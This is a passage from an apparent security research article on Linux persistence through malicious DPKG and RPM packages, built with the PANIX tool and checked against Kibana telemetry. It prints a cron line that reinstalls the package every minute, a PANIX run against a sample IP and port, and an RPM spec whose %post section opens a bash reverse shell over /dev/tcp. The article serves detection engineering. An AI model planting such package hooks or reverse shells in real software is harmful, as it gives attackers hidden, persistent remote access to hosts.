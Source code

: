 Upon installation, or updating of the package, the payload will be executed. In order to persist on a regular interval, any other persistence mechanism can be used. PANIX leverages `Cron`:

```
echo "*/1 * * * * /var/lib/dpkg/info/${PACKAGE_NAME}.postinst configure > /dev/null 2>&1" | crontab -
```


To forcefully install the package on a certain interval. This is of course not a stealthy mechanism, but serves as a proof of concept to emulate the technique. Let’s run the payload, and analyze the simulated events in Kibana:

```
sudo ./panix.sh --malicious-package --dpkg --ip 192.168.100.1 --port 2019
dpkg-deb: building package 'panix' in 'panix.deb'.
Preparing to unpack panix.deb ...
Unpacking panix (1.0) over (1.0) ...
Setting up panix (1.0) ...
nohup: appending output to 'nohup.out'
[+] Malicious package persistence established.
```

Looking at the events generated in Kibana, we can see the following sequence:

![PANIX malicious-package module execution visualized in Kibana (DPKG)](/assets/images/approaching-the-summit-on-persistence/image2.png) 

PANIX is executed via `sudo`, after which the `postinst` and `control` files are created. The package is then built using `dpkg-deb`, and installed with `dpkg -i`. Here we can see the `/var/lib/dpkg/info/panix.postinst` executing the reverse shell execution chain (`nohup` → `setsid` → `bash`). After installation, the `crontab` is altered to establish persistence on a one-minute interval.

**RPM**

For `RPM`, a similar flow as `DPKG` is leveraged. The package is set up using the correct `RPM` package structure, and the `%post` section is set to contain the payload that gets triggered after installation:

```
# RPM package setup
PACKAGE_NAME="panix"
PACKAGE_VERSION="1.0"
cat <<-EOF > ~/rpmbuild/SPECS/${PACKAGE_NAME}.spec
Name: ${PACKAGE_NAME}
Version: ${PACKAGE_VERSION}
Release: 1%{?dist}
Summary: RPM package with payload script
License: MIT

%description
RPM package with a payload script that executes a reverse shell.

%prep
# No need to perform any preparation actions

%install
# Create directories
mkdir -p %{buildroot}/usr/bin

%files
# No need to specify any files here since the payload is embedded

%post
# Trigger payload after installation
nohup setsid bash -c 'bash -i >& /dev/tcp/${ip}/${port} 0>&1' &

%clean
rm -rf %{buildroot}
```